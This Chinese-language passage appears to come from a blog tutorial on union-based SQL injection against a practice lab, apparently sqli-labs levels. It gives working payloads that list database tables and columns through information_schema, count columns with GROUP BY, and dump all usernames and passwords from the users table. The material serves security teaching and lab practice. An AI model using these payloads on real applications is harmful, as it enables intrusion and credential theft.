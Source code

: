 过滤security数据库中的表名，即table_schema为security的行

```sql
1' union select 1,table_name,3 from information_schema.tables where table_schema=database()--+
```

但是我要确保所有的查询信息能放到一行显示出来：

```sql
1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()--+
```

最后的结果是如图：

![image-20240506145953655](https://blog-1304715799.cos.ap-nanjing.myqcloud.com/imgs/image-20240506145953655.png?imageSlim)



但是如上并不完整，所以需要还需要查询当前的列

```sql
1' union select 1,group_concat(column_name),3 from information_schema.columns where table_schema=database() and table_name='users'--+
```



### 2.3 数字型union注入

<img src="https://blog-1304715799.cos.ap-nanjing.myqcloud.com/imgs/image-20240506150751216.png?imageSlim" alt="image-20240506150751216"  />

这里的环境使用level-2

![image-20240506151119505](https://blog-1304715799.cos.ap-nanjing.myqcloud.com/imgs/image-20240506151119505.png?imageSlim)

然后使用group by查看当前的列数：

> 注意： 这里是数字类型可以不需要封闭

```sql
id=2 group by 3--+
```

然后配合union

```sql
0 union select 1,database(),version()--+
```

然后其他的操作都是和如上一样。

如果括号中存在sql命令，会优先执行括号里面的，比如下面这种：

```sql
0 union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='security'),3 --+
```

然后查询所有的用户和密码：

```sql
0 union select 1,group_concat(username,password),2 from users --+
```
